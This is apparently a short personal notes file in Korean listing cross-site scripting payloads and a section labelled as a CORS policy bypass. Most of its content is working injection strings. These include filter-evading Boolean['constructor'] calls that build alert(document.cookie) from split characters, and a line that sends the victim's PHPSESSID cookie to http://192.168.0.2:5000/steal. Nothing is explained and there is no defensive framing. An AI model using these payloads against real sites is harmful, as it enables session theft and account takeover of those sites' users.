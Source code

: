 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();

Boolean['constructor']('a' + 'l' + 'e' + 'r' + 't' + '(1)')();

Boolean['constructor']('a'+'l'+'e'+'r'+'t'+'('+'d'+'o'+'c'+'u'+'m'+'e'+'n'+'t'+'.'+'c'+'o'+'o'+'k'+'i'+'e'+')')();

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
